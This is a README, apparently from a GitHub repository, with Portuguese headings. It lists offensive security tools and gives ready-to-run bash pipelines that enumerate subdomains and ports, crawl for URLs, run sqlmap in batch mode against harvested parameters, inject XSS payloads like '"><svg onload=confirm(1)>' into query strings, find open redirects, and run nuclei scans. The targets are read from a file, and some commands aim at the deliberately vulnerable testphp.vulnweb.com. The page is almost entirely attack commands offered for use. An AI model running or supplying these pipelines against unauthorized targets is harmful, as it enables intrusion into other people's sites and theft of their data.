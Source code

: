 ## Ferramentas necessárias

[Subfinder](https://github.com/projectdiscovery/subfinder)<br>
[Sqlmap](https://github.com/sqlmapproject/sqlmap)<br>
[Katana](https://github.com/projectdiscovery/katana)<br>
[Gospider](https://github.com/jaeles-project/gospider)<br>
[Httpx-ToolKit](https://www.kali.org/tools/httpx-toolkit/)<br>
[Qsreplace](https://github.com/tomnomnom/qsreplace)<br>
[Airixss](https://github.com/ferreiraklet/airixss)<br>
[Uro](https://github.com/s0md3v/uro)<br>
[Nuclei](https://github.com/projectdiscovery/nuclei)<br>
[Freq](https://github.com/takshal/freq)<br>
[Hakrawler](https://github.com/hakluke/hakrawler)<br>
[Findomain](https://github.com/Edu4rdSHL/findomain)<br>
[Anew](https://github.com/tomnomnom/anew)<br>
[WayBackUrls](https://github.com/tomnomnom/waybackurls)<br>
[gf](https://github.com/tomnomnom/gf)<br>
[waybackrobots](https://github.com/vodafon/waybackrobots)<br>
[Dalfox](https://github.com/hahwul/dalfox)<br>
[XssTrike](https://github.com/s0md3v/XSStrike)<br>
[Gau](https://github.com/lc/gau)<br>
[Naabu](https://github.com/projectdiscovery/naabu)<br>


###  HTTP200. 

```bash
subfinder -d $(cat url) | httpx-toolkit -silent -sc -t 1000 | anew http200;
```

###  WaybackRobots. 

```bash
cat http200 | waybackrobots -d $(cat url) -raw | anew wayROBOTS;
```

###  Sqlmap. 

```bash
findomain -t $(cat url) -q | httpx-toolkit -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1 | anew sqlmap;
```

###  Subfinder. 

```bash
subfinder -d $(cat url) -silent -all | httpx-toolkit -silent | anew subfinder;
```

###  Naabu. 

```bash
cat subfinder | naabu -list | anew naabu;
```


###  Katana crawling. 

```bash
cat subfinder | katana -d 5 -silent | grep -iE '\.js'| grep -iEv '(\.jsp|\.json)' | anew KatanaCrawling1;

cat subfinder | katana -d 5 -silent -em js,jsp,json | anew KatanaCrawling2;
```


###  Dalfox. 

```bash
sudo dalfox url https://testphp.vulnweb.com/listproducts.php?cat=
```

###  XssTrike. 

```bash
sudo python3 xsstrike.py -u http://testphp.vulnweb.com/

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\=

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\= -f payforce.txt
```

###  Gau. 

```bash
gau $(cat url) | grep "\.js" | anew gau
```


###  Gospider. 

```bash
gospider -d 0 -s $(cat url) -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew gospider
```


###  Xss1. 

```bash
echo $(cat url) | httpx-toolkit -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not' | anew xss1;
```



###  Xss2. 

```bash
echo $(cat url) | httpx-toolkit -silent | katana -d 10 -silent | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss2;
```



###  Xss3. 

```bash
echo $(cat url) | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss3;
```


###  Xss4. 

```bash
gau $(cat url) | httpx-toolkit -silent | qsreplace '>XSS<' | freq | grep '>XSS<' | anew xss4;
```


###  OpenRedirect gf. 

```bash
echo $(cat url) | waybackurls | httpx-toolkit -silent -timeout 2 -threads 100 | gf redirect | anew openRedirect
```


###  Nuclei. 

```bash
echo $(cat url) | subfinder -silent | httpx-toolkit -p 80,443,81,300,591,593,832,981,1010,1311,1099,2082,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5280,5281,5601,5800,6543,7000,7001,7396,7474,8000,8001,8008,8014,8042,8060,8069,8080,8081,8083,8088,8090,8091,8095,8118,8123,8172,8181,8222,8243,8280,8281,8333,8337,8443,8500,8834,8880,8888,8983,9000,9001,9043,9060,9080,9090,9091,9200,9443,9502,9800,9981,10000,10250,11371,12443,15672,16080,17778,18091,18092,20720,32000,55440,55672 | nuclei -severity low,medium,high,critical | anew nuclei
```


